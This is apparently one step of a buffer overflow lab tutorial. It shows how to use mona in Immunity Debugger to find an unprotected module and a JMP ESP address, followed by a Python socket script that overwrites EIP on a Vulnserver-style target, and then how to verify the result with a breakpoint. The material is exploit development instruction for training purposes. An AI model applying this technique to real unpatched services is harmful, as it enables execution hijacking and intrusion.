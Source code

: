 To find the right module we gotta use mona, the command we need is
`!mona modules`
that should list all the modules and if they have security, you wanna choose the one without security where  all six are false and see the dll for it. 

Example if the dll is essfunc.dll
`!mona find -s "\xff\xe4" -m essfunc.dll`
That should list some more things, pick one of the options and you see an address to the left of it. Example 625011AF, note that somewhere and now in the script type that backwards like below

```python
import socket

ip, port = "10.10.10.10", 9999 # Change the ip and port
offset = 0  # change this with what you got from step 2
prefix = b"" # change this if necessary and make sure theres a space at the end.
module = b"\xaf\x11\x50\x62" # Change this


try:
	s = socket.socket()
	s.connect((ip, port))
	s.send(prefix + b"A"*offset + module)
except:
	print(f"Something went wrong")

s.close()
```

To test if the module worked we gotta put an breakpoint at that address in Immunity debugger and run it.

To put a breakpoint go to immunity debugger and restart the program and run it, now press at top left window at anywhere and press ctrl+g. that should bring a promt asking "Enter expression to follow" and type the address you had before, in my example 625011AF, that should bring you to it and now press f2 on keyboard to put a breakpoint, now run the script above and see what the EIP is, if the EIP is your address which in my case is 625011AF then the module works, if not pick another one with the previous find command and try that.